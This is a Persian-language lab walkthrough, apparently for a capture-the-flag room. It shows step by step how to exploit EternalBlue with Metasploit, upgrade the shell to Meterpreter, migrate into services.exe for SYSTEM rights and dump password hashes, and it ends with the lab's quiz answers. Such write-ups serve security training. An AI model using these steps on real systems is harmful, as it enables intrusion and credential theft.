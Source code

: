 ```sh
msf6 exploit(windows/smb/ms17_010_eternalblue) > exploit
"TCP Handler Started and now accessing to CMD Shell"
C:\Windows\System32> whoami
```
##### TASK 3 - Escalate
1. *Escalation Privileges*
	0. در این مرحله باید سعی کنیم دسترسی را که گرفتیم بالا ببریم. در واقع الان از ماشین تارگت یک `Shell CMD` داریم، حال میخواهیم این شل را به `Meterpreter Shell` تغییر دهیم. ابتدا باید Exploit و Payload مناسب را پیدا کنیم.
	1. `msf6 exploit(windows/smb/ms17_010_eternalblue) > search shell_to_meterpreter`
		1. ![[Pasted image 20240712165620.png]]
	2. برای استفاده از این اکسپلوبت یافت شده میتوانیم هم از اسم Exploit و هم از ایدی Exploit که در جستجو برای آن در نظر گرفته شده است استفاده کنیم:
	3. `use post/multi/manage/shell_to_meterpreter` or `use 0`
		1. ![[Pasted image 20240712165932.png]]
	4. حال گزینه ها را بررسی میکنیم، سپس هم Exploit را شروع میکنیم اما فعلا عملیات با موفقیت انجام نمیشود.
		1. `msf6 post(windows/smb/ms17_010_eternalblue) > options`
		2. `msf6 post(windows/smb/ms17_010_eternalblue) > exploit`
	5. یکی از پارامتر های Required در ماژول `shell_to_meterpreter` پارامتر **SESSION** است که باید حتما تنظیم شود. در واقع بدلیل اینکه این اکسپلویت باید بر روی یک Session موجود(در این سناریو CMD Shell) انجام شود باید حتما Required Option با نام `SESSION` را با PID مربوط به Session Shell CMD مقدار دهی کنیم. 
	6. بنابراین برای اینکه Exploit ما با موفقیت کار کند باید ابتدا مقدار `SESSION` را بر روی `Shell CMD` تنظیم کنیم تا شل آن session از cmd به Meterpereter تغییر کند.
		1. `msf6 post(windows/smb/ms17_010_eternalblue) > set SESSION 2`
		2. `msf6 post(windows/smb/ms17_010_eternalblue) > exploit`
			1. ![[Pasted image 20240712170643.png]]
	7. حال با اجرای Exploit، دسترسی `Shell CMD` به `Meterpreter Shell` تغییر میکند و میتوانیم در پس زمینه به این شل دسترسی بگیریم.
		1. `msf6 post(windows/smb/ms17_010_eternalblue) > sessions`
			1. ![[Pasted image 20240712171036.png]]
		2. `msf6 post(windows/smb/ms17_010_eternalblue) > sessions -i 3`
		3. `Meterpreter > ls`
2. *Meterpereter Escalation*
	0. حال باید دسترسی خود را در `Meterpreter Shell` بالا ببریم. برای اینکار ابتدا باید به پروسه ای که با دسترسی Full مهاجرت Migrate را انجام دهیم. در اینجا میخواهیم به `services.exe` مهاجرت کنیم.
		1. `Meterpreter > ps` Copy `services.exe` *PID*
			1. ![[Pasted image 20240712171522.png]]
		2. `Meterpreter > migrate 708` 708 is `services.exe` *PID*
			1. ![[Pasted image 20240712171556.png]]
	1. در واقع با انجام Migrate، از کاربر معمولی به کاربر ادمین تغییر دسترسی میدهیم. برای اثبات این موضوع میتوانید قبلا از Migrate با استفاده از `Meterpreter > getuid` یوزر فعلی را دربیاوریم و پس از Migrate نیز بار دیگر اینکار را انجام دهیم تا از تغییر یوزر به `system || Administrator` اطمینان حاصل کنیم.
		1. ![[Pasted image 20240712174654.png]]
	2. برای `Proof of Concept` بالا بردن سطح دسترسی باید بتوانیم `hashdump` را اجرا کنیم، اگر این کامند با موفقیت انجام شود بدین معناست که Escalation Privileges با موفقیت انجام شده است.
		1. `Meterpreter > hashdump`
			1. ![[Pasted image 20240712175004.png]]
3. *Answer TASK 3 Questions*
	0. حال میتوانیم به صفحه آزمایشگاه Task 3 برگردیم و به سوالات آزمایشگاه جواب دهیم >>
	1. سوال اول میگوید *اکسپلویت که پس از نفوذ در واقع Post Exploitation، از آن برای تغییر Shell به Meterpreter استفاده میکنیم چه نام دارد؟* جواب >>
		1. `post/multi/manage/shell_to_meterpreter`
			1. ![[Pasted image 20240712180258.png]]
	2. سوال دوم میگوید *در اکسپلویت `shell_to_meterpreter` مقدار دهی کدام یک از Option ها Required است؟* جواب >>
		1. `SESSION`
			1. ![[Pasted image 20240712180304.png]]
	3. سایر سوالات هم که مربوط به مراحل عملی است که انجام دادیم، بنابراین فقط کافیست بر روی `Completed` کلیک کنیم و درصورتیکه اینکار را بدرستی در `AttackBox` انجام داده باشیم `Correct Answer` را دریافت میکنیم.